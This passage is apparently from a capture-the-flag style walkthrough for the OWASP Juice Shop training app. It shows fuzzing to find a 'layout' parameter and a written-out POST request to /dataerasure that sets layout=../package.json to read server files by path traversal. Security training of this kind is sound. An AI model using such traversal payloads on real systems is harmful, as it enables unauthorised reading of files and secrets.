 ### Step 4: Fuzzing the Parameters
To find the vulnerable parameter, use a fuzzer to test different parameter values. The goal is to identify any parameter that causes the server to access files from the filesystem.

### Step 5: Identifying the Vulnerable Parameter
After fuzzing, the parameter `layout` was found to be existent. A request with an invalid value for `layout` resulted in:
```http
500 Internal Server Error
Error: ENOENT: no such file or directory
```
This error indicates that the server attempted to access a file based on the `layout` parameter.

<img src="../assets/difficulty5/local_file_read_2.png" alt="response error example" width="600px">

### Step 6: Crafting the Exploit
The error message suggests the server accesses files from the path `<root_directory>/juice-shop/views/<value_of_layout_parameter>`. To exploit this, we can try to read known files on the server by manipulating the `layout` parameter.

1. **Target File:** One commonly known file is `package.json`.
2. **Manipulate Parameter:** Modify the `layout` parameter to `../package.json`:
```http
POST /dataerasure HTTP/1.1
Host: localhost:3000
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
...
Cookie: [Your authentication cookies]
...
email=admin%40juice-sh.op&securityAnswer=test&layout=../package.json
```
